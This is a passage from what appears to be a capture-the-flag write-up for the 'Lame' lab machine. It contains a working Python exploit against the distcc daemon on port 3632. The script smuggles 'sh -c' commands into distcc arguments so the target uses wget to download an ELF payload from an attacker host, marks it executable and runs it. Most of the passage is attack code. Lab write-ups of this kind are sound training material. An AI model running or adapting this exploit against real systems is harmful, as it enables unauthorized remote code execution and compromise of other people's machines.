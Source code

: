 This can be converted into the following Python:

```python
import socket

# had issues trying to run them all at once with && ... so instead run them one-by-one
payloads = [
  "wget http://10.10.14.17:8080/bubba.elf -P /tmp",
  "chmod +x /tmp/bubba.elf",
  "/tmp/bubba.elf &",
]
cmd = ''.join([
  "DIST00000001",
  "ARGC00000008",   # command has 8 arguments in total
    "ARGV00000002", # argv[0] is 2 bytes long
    "sh",           # argv[0]
    "ARGV00000002", # argv[1] is 2 bytes long
    "-c",           # argv[1]
    "ARGV{0:08x}",  # argv[2] is the length of the payload 
    "{1}",          # argv[2] is the payload 
    "ARGV00000001", # argv[3] is 1 byte long
    "#",            # argv[3] is the command escape 
    "ARGV00000002",
    "-c",
    "ARGV00000006",
    "main.c",
    "ARGV00000002",
    "-o",
    "ARGV00000006",
    "main.o",
  "DOTI00000001A",
])
for c in payloads:
  data = cmd.format(len(c), c)
  print(f'[*] sending {data}')
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(('10.10.10.3', 3632))
  s.send(data.encode())
  print(s.recv(4096).decode())
  s.close()
```

Running this script generates the following output:

![exploit2](./lame/exploit2.png)
